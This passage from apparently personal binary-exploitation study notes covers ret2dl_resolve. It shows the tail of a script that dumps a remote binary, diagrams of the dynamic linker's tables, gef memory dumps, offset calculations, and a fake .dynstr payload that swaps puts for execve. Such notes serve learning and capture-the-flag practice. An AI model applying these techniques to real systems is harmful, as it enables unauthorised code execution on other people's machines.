            file.append(check[:-1])
            r.close() 
            
        else:
            r.close()
    except:                                             
        print(sys.exc_info()[0])
        r.close()


file = []
offset = 0x7f                                           

for i in range(0x100):                      
    offset = leak_binary_write(i*offset,0x400000)
    print(f'{hex(i*offset)}')


string1 = b''.join(file)

with open('binary_dump', 'wb') as out:
    out.write(string1)
    out.close()

```

</div>
</details>


# ret2dl_resolve

<details>
    <summary>how _dl_runtime_resolve works </summary>
        <div>
		
# how _dl_runtime_resolve works

```
_dl_runtime_resolve(elf_info , index )
				|
				|
  ------------------------------
  |
  |	 ___________________          ___________________          ___________________
  |	| Relocation table  |        |   Symbol table    |        |   String table    |
  |	|_____rel.plt_______|        |_____.dynsym_______|        |______.dynstr______|
  |	|       ...         |        |       ...         |        |       ...         |
  |	|___________________|        |___________________|        |___________________|
  >>>>>>|      r_offset     |        |      st_name      |        |      read\0       |
	|___________________|        |___________________|        |___________________|
	|      r_info       | ____   |      st_info      |        |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|       ...         |     |  |        ...        |    |>>>|      puts\0       |
	|___________________|     |  |___________________|    |   |___________________|
	|      r_offset     |     |  |      st_name      | ___|   |       ...         |
	|___________________|     |  |___________________|        |___________________|
	|      r_info       |     >>>|      st_info      |        |                   |
	|___________________|        |___________________|        |___________________|

```
		
so first we enter the call to puts.

since this is the first call to puts it is not binded we need to setup the arguments for _dl_runtime_resolve(elf_info , index )

pushes the index in this case 0x0       \
```
	0x401030                  endbr64        
 →   0x401034                  push   0x0       
     0x401039                  bnd    jmp 0x401020      
```
pushes the elf_info 0x404008:	0x00007ffff7ffe190       \
```
→   0x401020                  push   QWORD PTR [rip+0x2fe2]        # 0x404008       
     0x401026                  bnd    jmp QWORD PTR [rip+0x2fe3]        # 0x404010       
     0x40102d                  nop    DWORD PTR [rax]       
```
than we look into the rel.plt        

we pushed 0 so we look at the first entry of the Relocation table and find the r_info holding 100000007h for now we only care about the 1 which is the offset for the Symbol table       
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Relocation_table.png">

in the Symbole table we look at offset 1 and find the st_name which holds the offset 10h
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/Symbole_table.png">
		
in the String table we look at ofset 10h and find the string puts
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/String_Table.png">


</div>
</details>




<details>
    <summary>ret2dl_resolve method 1. (PIE is off // RELRO off)</summary>
        <div>
		
# ret2dl_resolve method 1. (PIE is off // RELRO off)

Prerequisites
1. IP controll
2. ability to write to memory

in the .dynamic section there is a pointer to the String table .dynstr if RELRO is off this section is actually writeable we can change the pointer to.
if we cange d_val to a section in the .bss we can basically write our own String table there and simply could replace puts with execve.


```
 ___________________      ___________________ 
|   Symbole table   |    |    String table   | <<<______
|______.dynsym______|    |______.dynstr______|          |
|        ...        |    |        ...        |          |
|___________________|    |___________________|          |
|       st_name     |_   |       read\0      |          |
|___________________| |  |___________________|          |
|       st_info     | |>>|       puts\0      |          |
|___________________| .  |___________________|          |
        ...............                .................|_______
	.	 ___________________   .  ___________________   |
	.	|   Writeable area  |<<. |      .dynamic     |  |
	.	|________.bss_______|    |___________________|  |
	.	|        ...        |    |        ...        |  |
	.	|___________________|    |___________________|  |
	.	|       read\0      |    |  d_tag: DT_STRTAB |  |
	.	|___________________|    |___________________|  |
	.....>>>|       execve\0    |    |       d_val       |__|
		|___________________|    |___________________|

```
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/nRELROdynamicSection.png">		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynstr.png">
		
fake .dynstr in .bss (d_val points to the first `\x00`)		
```
payload = b'\x00'
payload += b'libc.so.6\x00'		
payload += b'gets\x00'
payload += b'execve\x00'		#puts was here before
payload += b'__libc_start_main\x00'
payload += b'GLIBC_2.2.5\x00'
payload += b'__gmon_start__\x00'
```

</div>
</details>


<details>
    <summary>ret2dl_resolve method 2. (PIE is off// partial RELRO)</summary>
        <div>

# ret2dl_resolve method 2. (PIE is off// partial RELRO)


Prerequisites
1. IP controll
2. ability to write to memory

```
readelf -S resolve_partial_relro
		
  [ 6] .dynsym           DYNSYM           00000000004003c8
  [ 7] .dynstr           STRTAB           0000000000400470
  [11] .rela.plt         RELA             0000000000400550
  [22] .dynamic          DYNAMIC          0000000000403e20
  [24] .got.plt          PROGBITS         0000000000404000
  [26] .bss              NOBITS           0000000000404040

```

we can create a fake .rel.plt entry in the .bss and pass a huge index to _dl_runtime_resolve(elf_info,index)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/relplt.png">

we set 0x277 as index.   \
than runtime_resolve would than look for the .rel.plt entry @ 404078 which is in .bss we have controll over and can place a fake .rel.plt struct here that contains the fake r_info.   
		
each .rel.plt entry is 24 bytes in size.    	
		
```
addr_fake_frame - addr_of_.rel.plt = byte_offset / 24 = index_offset 
0x404078 - 00400550 = 0x3B28/24 = 0x277   
```

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2dl_resolve/dynsym.png">
we set our fake r_info to 0x360 and place our fake .dynsym struct that contains the fake st_name entry directly under our fake .rel.plt struct   /

each .dynsym entry is 18 bytes in size 
		
```
(addr_fake_struct + offset_fake_dynsym) - addr_of_.dynsym = byte_offset / 18 = r_info_offset 
(0x404078+24) - 004003c8     				#+24 cause our fake_.rel.plt is 24 bytes
0x404090 - 004003c8 = 0x3cc8/18 = 0x360   
```	

here we set the st_name offset to 0x3c2a.    \
starting @ 0x400471 to our fake string @ 0x404078    
```
(addr_fake_struct + offset_fake_dynsym + offset_fake_dynstr) - addr_of_.dynstr = st_name 
(0x404078+24+18) - 0x400471    
0x4040a2 - 0x400471 = 0x3c31    
```
and as last step we set what libc function we want to resolve into our fake .dynstr entry @ 0x404062



```
_dl_runtime_resolve(elf_info , index)
				|  
                       _________|                   
 ___________________  |           
| Relocation table  | |        
|______.rel.plt_____| |               
|        ...        | |               
|___________________| |               
|       r_offset    | |               
|___________________| |               
|       r_info      |<|               
|___________________| .     
                      .
                      ..........
	 ___________________   .
	|    Writable area  |  .
	|________.bss_______|  .
	|      r_offset     |  .
	|___________________|  .
 .......|      r_info       |<..
 .	|___________________|
 .      |        ...        |
 .      |___________________|
 .	|      st_name      |
 .	|___________________|
 .....>>|      st_info      |...   
	|___________________|  . 
	|        ...        |  . 
	|___________________|  . 
	|      execve\0     |<<. 
	|___________________|


```
This aproach will not work allways:
If the Dynamic loader checks the boundaries.
If symbol versioning and huge pages are enabled. 


</div>
</details>


	
	
<details>
    <summary>ret2dl_resolve method 3. (PIE is off//partial RELRO)</summary>
        <div>
in prgoress		
# ret2dl_resolve method 3. (PIE is off//partial RELRO)

Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(reg) + offset) = value`

```
mov rax, [rax]				#get the pointed addr into rax
mov [rax + rdx], rdi		#add rdx to pointed addr and mov rdi into it
```

elf_info points to a link_map struct    \
the link_map holds a pointer to the .dynstr table    \
the elf_info is allways available at a reserved GOT entry GOT[1]

this is like the first attack but we need a specific gadget to exploit this sucesfully.

we know the pointer to the link_map but we actually have to rewrite an entry in the link map.    \


```
gef➤  got

GOT protection: Partial RelRO | GOT functions: 5
 
[0x601018] puts@GLIBC_2.2.5  →  0x400566
[0x601020] setbuf@GLIBC_2.2.5  →  0x7ffff7e4ac50
[0x601028] read@GLIBC_2.2.5  →  0x400586
[0x601030] __libc_start_main@GLIBC_2.2.5  →  0x7ffff7de2fc0
[0x601038] strcmp@GLIBC_2.2.5  →  0x4005a6

```

```
gef➤  tel 0x601000
0x0000000000601000│+0x0000: 0x0000000000600e28  →  0x0000000000000001
0x0000000000601008│+0x0008: 0x00007ffff7ffe190  →  0x0000000000000000
0x0000000000601010│+0x0010: 0x00007ffff7fe7bb0  →   endbr64 
0x0000000000601018│+0x0018: 0x0000000000400566  →  0xffe0e90000000068 ("h"?)
0x0000000000601020│+0x0020: 0x00007ffff7e4ac50  →  <setbuf+0> endbr64 
0x0000000000601028│+0x0028: 0x0000000000400586  →  <read@plt+6> push 0x2
0x0000000000601030│+0x0030: 0x00007ffff7de2fc0  →  <__libc_start_main+0> endbr64 
0x0000000000601038│+0x0038: 0x00000000004005a6  →  <strcmp@plt+6> push 0x4
0x0000000000601040│+0x0040: 0x0000000000000000
0x0000000000601048│+0x0048: 0x0000000000000000

```
```
gef➤  tel 0x00007ffff7ffe190
0x00007ffff7ffe190│+0x0000: 0x0000000000000000
0x00007ffff7ffe198│+0x0008: 0x00007ffff7ffe730  →  0x0000000000000000
0x00007ffff7ffe1a0│+0x0010: 0x0000000000600e28  →  0x0000000000000001					#pointer to .dynamic
0x00007ffff7ffe1a8│+0x0018: 0x00007ffff7ffe740  →  0x00007ffff7fcd000  →  0x00010102464c457f
0x00007ffff7ffe1b0│+0x0020: 0x0000000000000000
0x00007ffff7ffe1b8│+0x0028: 0x00007ffff7ffe190  →  0x0000000000000000
0x00007ffff7ffe1c0│+0x0030: 0x0000000000000000
0x00007ffff7ffe1c8│+0x0038: 0x00007ffff7ffe718  →  0x00007ffff7ffe730  →  0x0000000000000000
0x00007ffff7ffe1d0│+0x0040: 0x0000000000000000
0x00007ffff7ffe1d8│+0x0048: 0x0000000000600e28  →  0x0000000000000001

```
		
.dynamic struct look like this
```
gef➤  tel 20 0x0000000000600e28
0x0000000000600e28│+0x0000: 0x0000000000000001
0x0000000000600e30│+0x0008: 0x0000000000000001
0x0000000000600e38│+0x0010: 0x000000000000000c
0x0000000000600e40│+0x0018: 0x0000000000400528  →  <_init+0> sub rsp, 0x8
0x0000000000600e48│+0x0020: 0x000000000000000d
0x0000000000600e50│+0x0028: 0x00000000004007d4  →  <_fini+0> sub rsp, 0x8
0x0000000000600e58│+0x0030: 0x0000000000000019
0x0000000000600e60│+0x0038: 0x0000000000600e10  →  0x0000000000400690  →  <frame_dummy+0> mov edi, 0x600e20
0x0000000000600e68│+0x0040: 0x000000000000001b
0x0000000000600e70│+0x0048: 0x0000000000000008
0x0000000000600e78│+0x0050: 0x000000000000001a
0x0000000000600e80│+0x0058: 0x0000000000600e18  →  0x0000000000400670  →  <__do_global_dtors_aux+0> 
0x0000000000600e88│+0x0060: 0x000000000000001c
0x0000000000600e90│+0x0068: 0x0000000000000008
0x0000000000600e98│+0x0070: 0x000000006ffffef5
0x0000000000600ea0│+0x0078: 0x0000000000400298  →   add eax, DWORD PTR [rax]
0x0000000000600ea8│+0x0080: 0x0000000000000005
0x0000000000600eb0│+0x0088: 0x00000000004003b8  →   add BYTE PTR [rcx+rbp*2+0x62], ch				#pointer to .dynstr
0x0000000000600eb8│+0x0090: 0x0000000000000006
0x0000000000600ec0│+0x0098: 0x00000000004002c8  →   add BYTE PTR [rax], al

```
		
we overwrite the l_info[DT_STRTAB] in the struct starting @ 0x00007ffff7ffe190 at offset +0x0010 and change it to an bss addr.
and at the .bss addr we create a fake .dynamic struct

at .bss +0x0088 we store our pointer to the fake .dynstr struct we create 



``` 
         ___________________       ___________________       ___________________
	|        GOT        |  |>>|      .dynamic     |  |->|      .dynstr      |
	|______.plt.got_____|  |  |___________________|  |  |___________________|
	|        got[0]     |  |  |        ...        |  |  |       read\0      |  
	|___________________|  |  |___________________|  |  |___________________|  
	|        got[1]     |  |  |  d_tag: DT_STRTAB |  |  |       puts\0      | 
 |------|___________________|  |  |___________________|  |  |___________________|
 |	|        got[2]     |  |  |       d_val       |--| 
 |	|___________________|  |  |___________________|
 |                             |
 |	 ___________________   |   ___________________  
 |	|                   |  |.>|   Writable area   |  
 |	|___________________|  |. |________.bss_______|  
 |	|        ...        |  |. | d_tag: DT_STRTAB  |  
 |	|___________________|  |. |___________________|  
 |	|  l_info[DT_HASH]  |  |. |        d_val      |--|  
 |	|___________________|  |. |___________________|  |
 |---->>| l_info[DT_STRTAB] |--|. |         ...       |  |
	|___________________|     |___________________| <
	| l_info[DT_SYMTAB] |     |      read\0       |
	|___________________|     |___________________|
				  |      execve\0     |
				  |___________________|
```
</div>
</details>


		
	
<details>
    <summary>ret2dl_resolve method 4. (PIE is off//full RELRO)</summary>
        <div>
		
# ret2dl_resolve method 4. (PIE is off//full RELRO)
		
in this methode we use a debugging feature DT_DEBUG in the .dynamic section that points to a debugger data struct. (it is used by e.g. gdb to track loading of new librarys)

this DT_DEBUG data struct also holds a pointer to the link_map

but we still have to find the dl_runtime_resolve() cause the reserved GOT entry for it is gone as well as the elf_info link_map reserver GOT

the link_map is part of a linked list.
If we go to the next entry in the liniked list 


Prerequisites
1. IP controll
2. ability to write to an addr `*(destination) = value` 

`mov [rax],rdi`


3. ability to write to a pointer with an offset  `*(*(rax) + offset) = value`


```
mov rax, [rax]
mov [rax + offset],value
```

4. 

```
mov pointer, [pointer]
mov reg, [pointer + offset]
mov [destination], reg
```
5.
```
mov reg, [source]
mov [esp + offset], reg
```

```
     ___________________                     ___________________         ___________________ 
    |   Dynamic section |                   |       [HEAP]      |       |        GOT        |  
    |______.dynamic_____|                   |___________________|     |>|______.plt.got_____|    
    |        ...        |                   |         ...       |     | |       GOT[0]      |   
    |___________________|                   |___________________|     | |___________________|   
    |  d_tag: DT_DEBUG  |                   |      r_version    |     | |       GOT[1]      |      
    |___________________|                   |___________________|     | |___________________|      
    |       d_val       | ---------------->>|        r_map      |     | |       GOT[2]      |---_dl_runtime_resolve
    |___________________|                   |___________________|--|  | |___________________|    
    |        ...        |                   |         ...       |  |  | |       GOT[3]      | 
    |___________________|                   |___________________|  |  | |___________________|   
    |  d_tag: DT_STRTAB |           |-------|l_info [DT_STRTAB] |  |  | |        ...        |  
    |___________________|           | ......|___________________|  |  | |___________________|  
 ---|       d_val       |           | .     |         ...       |  |  |    
 |  |___________________|           | .     |___________________|  |  |   
 |                                  | .   --|       l_next      |<-|  |
 |                                  | .   | |___________________|     |
 |                                  | .   | |         ...       |     |
 |                                  | .   | |___________________|     |
 |                                  | .   |>| l_info[DT_PLTGOT] |-----|
 |                                  | .     |___________________|
 |   ___________________            | .
 ->>|    String table   |<<---------- .
    |______.dynstr______|              .
    |        ...        |               ................
    |___________________|        ___________________   .
    |       read\0      |       |    Writable area  |  .
    |___________________|       |________.bss_______|<<.
    |       puts\0      |<--    |        ...        |
    |___________________|  |    |___________________|
    |        ...        |  |    |       read\0      |
    |___________________|  |    |___________________|
                           |..>>|       execve\0    |
     ___________________   |.   |___________________| 
    |   Symbol table    |  |.  
    |______.dynsym______|  |.    
    |        ...        |  |.   
    |___________________|  |.   
    |      st_name      |--|.    
    |___________________| 
    |      st_info      |    
    |___________________|   
    |        ...        |    
    |___________________| 
```
IN PROGESS
		
		
		
</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">

